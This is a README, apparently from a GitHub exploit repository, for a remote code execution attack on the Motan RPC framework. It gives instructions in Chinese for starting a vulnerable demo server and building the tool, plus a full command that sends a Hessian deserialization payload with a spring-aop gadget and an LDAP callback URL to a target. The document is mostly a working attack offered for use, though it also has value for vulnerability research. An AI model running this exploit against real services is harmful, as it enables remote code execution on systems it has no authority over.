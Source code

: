 
# Motan-rce

## 快速利用

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务（漏洞靶场）

2. **编译rpc-rce：mvn clean package （jdk8+mvn3.2.5）**
```
java -jar dubbo-exp-1.0-SNAPSHOT-jar-with-dependencies.jar --target 127.0.0.1:8002 --protocol motan --serialization hessian  --gadget spring-aop --arg ldap://127.0.0.1:9988
```

## 漏洞复现

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务


2. **motan-demo/motan-demo-client/src/main/java/com/weibo/motan/demo/client/AnnotationRpcClientDemo.java** 运行攻击服务


# 鸣谢
rpc-rce框架拉取threedr3am/learnjavabug:https://github.com/threedr3am/learnjavabug.git

